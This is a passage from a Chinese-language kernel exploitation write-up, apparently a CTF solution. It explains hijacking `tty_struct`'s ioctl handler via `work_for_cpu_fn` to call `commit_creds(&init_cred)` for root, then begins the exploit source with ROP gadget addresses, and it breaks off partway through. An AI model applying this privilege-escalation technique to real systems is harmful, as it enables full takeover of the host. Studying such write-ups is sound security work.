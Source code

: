 
可以得知，这些函数表中的第一个参数均为`tty_struct`本身。

因此，若我们将`tty_struct`劫持为如下形式：

```c
tty_struct[4] = (size_t)commit_creds;
tty_struct[5] = (size_t)init_cred;
```

将函数表中的函数覆盖为`work_for_cpu_fn`，即可执行：

```c
((void*)tty_struct[4])(tty_struct[5]);
```

即：

```c
commit_creds(&init_cred);
```

需要注意的是，这里劫持函数表`tty_operations`中的`ioctl`而不是`write`函数。原因比较复杂，此处不再赘述。

需要注意的是，执行`commit_cred(&init_cred)`后，我们还原`tty_struct`结构体中的内容即可。

这种解法的`exp`如下（`main`函数中有详细注释）：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <stdarg.h>

#define POP_RDI_RET 0xffffffff810d238d
#define POP_RAX_RET 0xffffffff8100ce6e
#define MOV_CR4_RDI_POP_RBP_RET 0xffffffff81004d80
#define MOV_RSP_RAX_DEC_EBX_RET 0xffffffff8181bfc5
#define SWAPGS_POP_RBP_RET 0xffffffff81063694
#define IRETQ_RET 0xffffffff814e35ef

void info(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[34m\033[1m[*] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
}

void success(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[32m\033[1m[+] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
}

void error(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[31m\033[1m[x] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
```